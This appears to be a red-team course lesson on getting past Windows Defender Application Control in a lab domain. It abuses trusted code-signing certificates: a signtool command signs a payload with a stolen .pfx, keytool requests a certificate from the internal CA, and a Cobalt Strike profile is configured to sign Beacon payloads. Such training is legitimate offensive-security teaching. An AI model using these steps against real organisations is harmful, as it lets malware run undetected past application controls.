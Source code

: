Some organisations build and maintain their own custom [LOB](https://en.wikipedia.org/wiki/Line_of_business) applications which may be signed using an internal certificate authority, such as Active Directory Certificate Services.  Those CAs can be trusted by their WDAC policy, to allow them to sign and deploy their own trusted apps.

WDAC has two levels of certificate policy (three if you count **Root**, but that's currently unsupported).  The first is **Leaf** and the second is **PCA** (short for Private Certificate Authority).  Leaf adds trusted signers at the individual signing certificate level and PCA adds the highest available certificate in the chain (typically one certificate below the root certificate).

Leaf provides more granular control, as every single code-signing certificate issued would have to be trusted individually, but would obviously require more management overhead.  PCA is less robust but easier to manage, because any code-signing certificate issued by a CA can be trusted by WDAC in just a single rule.

  

`SignedApp.exe` on **Workstation 3** is signed using the "SignedApp" certificate, issued by the `redteamops2.local` CA.

![[77. Trusted Signers.png]]


A LeafCertificate rule would look like this:

```xml
<Signers>
  <Signer ID="ID_SIGNER_S_1" Name="SignedApp">
    <CertRoot Type="TBS" Value="368FEB688B0C60E99D410D4F70B4C952B2741D263C408AE2FBB84C56C15525B5" />
  </Signer>
</Signers>
```

  

A PcaCertificate rule like this:

```xml
<Signers>
  <Signer ID="ID_SIGNER_S_1" Name="Red Team Ops 2 Sub CA">
    <CertRoot Type="TBS" Value="0118C2C3108850353E71D0253A730747A266FDC0AA433A3FF5E087D10C199A73" />
  </Signer>
</Signers>
```

  

If you can find an exported private key (.pfx) and associated password, you can simply use `signtool.exe` from the Windows SDK to sign any binary with it.

```
signtool.exe sign /f SignedAppCert.pfx /p password /fd SHA256 EvilApp.exe
```

  

Another possibility is to have the CA sign your own certificate signing request.  Cobalt Strike can use such a certificate to automatically generated signed payloads.  This can be especially easy to achieve when the Web Enrollment role is installed.

![[78. Trusted Signers.png]]

First, create a Java KeyStore and complete the information fields.  You can enter anything you want, but when we generate a CSR from this keystore, it will be populated with this information and will ultimately appear in the CA.  We should therefore take some care to make the information look somewhat realistic for the target.

```
ubuntu@teamserver ~> keytool -genkey -alias server -keyalg RSA -keysize 2048 -keystore keystore.jks
Enter keystore password:
Re-enter new password:
What is your first and last name?
  [Unknown]:  HelpSystems LLC
What is the name of your organizational unit?
  [Unknown]:  Hacker Squad
What is the name of your organization?
  [Unknown]:  HelpSystems LLC
What is the name of your City or Locality?
  [Unknown]:  Eden Prairie
What is the name of your State or Province?
  [Unknown]:  MN
What is the two-letter country code for this unit?
  [Unknown]:  US
Is CN=HelpSystems LLC, OU=Hacker Squad, O=HelpSystems LLC, L=Eden Prairie, ST=MN, C=US correct?
  [no]:  yes
```
  

Next, generate the code signing request.

```
ubuntu@teamserver ~> keytool -certreq -alias server -file req.csr -keystore keystore.jks
Enter keystore password:

ubuntu@teamserver ~> cat req.csr
-----BEGIN NEW CERTIFICATE REQUEST-----
MIIC8TCCAdkCAQAwfDELMAkGA1UEBhMCVVMxCzAJBgNVBAgTAk1OMRUwEwYDVQQH
EwxFZGVuIFByYWlyaWUxGDAWBgNVBAoTD0hlbHBTeXN0ZW1zIExMQzEVMBMGA1UE
CxMMSGFja2VyIFNxdWFkMRgwFgYDVQQDEw9IZWxwU3lzdGVtcyBMTEMwggEiMA0G
CSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQCJuDtP/bn4y9Ha6J+Cp/ywjGxtvVET
K1do5eflb3gBxSQIqjZ5cxKZyCsiyCG3ALkbcxXsDRFQBElQWTu5ijyRhaLHOmvd
2CH6Bj+VmSqjuYHgBoIfzM5QKYs+uAdAGzveFwVyrjfL+4fj5TEu5XnnLp4d+L5n
vthpM4ABaaVPk82mlkWpDqlxp2LNp33ZPi9yUiMAkGSoBtWUEl9zXXl3G7jz+Tmd
KVxcqRpwVpJ1ibMZ/w9GcWDxTpPjlNIEDwLRFaJyPTXcoa84Xmm4ow7CHWJpOn7R
kXyR8wB4BTY5m+Tl7cFN8CqCNnCWumnYpls2ol3k771hS4ZB6yK6VIq5AgMBAAGg
MDAuBgkqhkiG9w0BCQ4xITAfMB0GA1UdDgQWBBSo06E0GI83Cdb9aBy68TGozbDV
6zANBgkqhkiG9w0BAQsFAAOCAQEAVLZXnnAgnErJ2NUQC2YFzVVyKXI4sRipxXX9
ZzVMOtm3+Z85Cf4/N2Zn7lgaOnkj+70dHSUxTzj+aj083dewGIWoqCgikbkPgNYs
dNslS4dhXqHM68anYUsRTiNqJ5QAYujmRwxWIVO/6WX6nRDA2ZnNS9cMz1Nt3+zZ
YPf5vJp3EmBU2fi3Eg3VHT/LAVoA441Yqfywg99JT3oB7ERw1BvLJ1VTSPBNbKcE
sToMLXbgJ3HMBZzAiwZaDpUT+KJ7oV4z/H+HFMThASPVy+tTBEONiqwuNIflvxcO
ILYhBwhe7NaYsTvruS3wAogSH9sSg2yVesJ786eKTR5B4eyOfw==
-----END NEW CERTIFICATE REQUEST-----
```
  

On [http://ca.redteamops2.local/certsrv,](http://ca.redteamops2.local/certsrv,) go to **Request a certificate** > **advanced certificate request**.  Paste the CSR into the request box and select **Red Team Ops 2 Code Signing** from the certificate template dropdown.  Then click **Submit**.


![[79. Trusted Signers.png]]

You'll be redirected to the Certificate Issued page where you can download the certificate.  Select **Download certificate chain** and your browser will download **certnew.p7b**.

![[80. Trusted Signers.png]]


Transfer this file onto your team server VM and import it into the keystore.

```
ubuntu@teamserver ~> keytool -import -trustcacerts -alias server -file certnew.p7b -keystore keystore.jks
Enter keystore password:

Top-level certificate in reply:

Owner: CN=Red Team Ops 2 Root CA, DC=redteamops2, DC=local
Issuer: CN=Red Team Ops 2 Root CA, DC=redteamops2, DC=local
Serial number: 421987c30cad5faa4854f955aca0717b
Valid from: Thu Feb 03 13:50:33 UTC 2022 until: Sun Feb 03 14:00:33 UTC 2047
Certificate fingerprints:
         SHA1: 88:F6:3E:1F:68:88:DD:C7:5C:C0:DC:C2:F4:F0:2B:C8:31:6C:B1:3E
         SHA256: 8C:21:38:A0:5E:B9:F8:1B:DF:DB:37:49:87:73:50:97:F2:C8:E5:9B:FC:31:70:55:93:4E:AC:37:DC:56:15:70
Signature algorithm name: SHA256withRSA
Subject Public Key Algorithm: 2048-bit RSA key
Version: 3

[...snip...]

... is not trusted. Install reply anyway? [no]:  yes
Certificate reply was installed in keystore
```
  

Copy `keystore.jks` into the cobaltstrike directory and then add the following code block to your Malleable C2 profile:

```
code-signer {
        set keystore "keystore.jks";
        set password "password";
        set alias "server";
}
```

  

Restart the team server and go to generate a new EXE payload.  You'll see the **sign executable file** checkbox can now be enabled.

![[81. Trusted Signers.png]]



Copy the new payload across to **WKSTN-3** and it will execute.

![[82. Trusted Signers.png]]

![[83. Trusted Signers.png]]


  **EXERCISE**  
  
Obtain a trusted code signing certificate and sign your Beacon to bypass WDAC on **Workstation 3**.

